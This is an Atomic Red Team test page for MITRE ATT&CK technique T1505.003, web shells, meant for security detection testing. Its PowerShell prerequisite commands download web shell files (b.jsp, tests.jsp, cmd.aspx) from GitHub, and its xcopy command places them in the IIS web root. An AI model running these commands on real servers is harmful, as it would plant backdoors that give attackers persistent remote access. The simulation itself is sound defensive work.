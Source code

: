 # T1505.003 - Server Software Component: Web Shell

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1505/003)

<blockquote>Adversaries may backdoor web servers with web shells to establish persistent access to systems. A Web shell is a Web script that is placed on an openly accessible Web server to allow an adversary to use the Web server as a gateway into a network. A Web shell may provide a set of functions to execute or a command-line interface on the system that hosts the Web server.(Citation: volexity_0day_sophos_FW)

In addition to a server-side script, a Web shell may have a client interface program that is used to talk to the Web server (e.g. [China Chopper](https://attack.mitre.org/software/S0020) Web shell client).(Citation: Lee 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Web Shell Written to Disk](#atomic-test-1---web-shell-written-to-disk)

<br/>

## Atomic Test #1 - Web Shell Written to Disk

This test simulates an adversary leveraging Web Shells by simulating the file modification to disk.
Idea from APTSimulator.
cmd.aspx source - https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmd.aspx

**Supported Platforms:** Windows

**auto_generated_guid:** 0a2ce662-1efa-496f-a472-2fe7b080db16

#### Inputs:

| Name           | Description                    | Type   | Default Value                             |
| -------------- | ------------------------------ | ------ | ----------------------------------------- |
| web_shell_path | The path to drop the web shell | string | C:&#92;inetpub&#92;wwwroot                |
| web_shells     | Path of Web Shell              | path   | PathToAtomicsFolder&#92;T1505.003&#92;src |

#### Attack Commands: Run with `command_prompt`!

```cmd
xcopy /I /Y "#{web_shells}" #{web_shell_path}
```

#### Cleanup Commands:

```cmd
del #{web_shell_path}\b.jsp /q >nul 2>&1
del #{web_shell_path}\tests.jsp /q >nul 2>&1
del #{web_shell_path}\cmd.aspx /q >nul 2>&1
```

#### Dependencies: Run with `powershell`!

##### Description: Web shell must exist on disk at specified location (#{web_shells})

##### Check Prereq Commands:

```powershell
if (Test-Path "#{web_shells}") {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
New-Item -Type Directory "#{web_shells}" -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/b.jsp" -OutFile "#{web_shells}/b.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/tests.jsp" -OutFile "#{web_shells}/tests.jsp"
Invoke-WebRequest "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1505.003/src/cmd.aspx" -OutFile "#{web_shells}/cmd.aspx"
```

<br/>
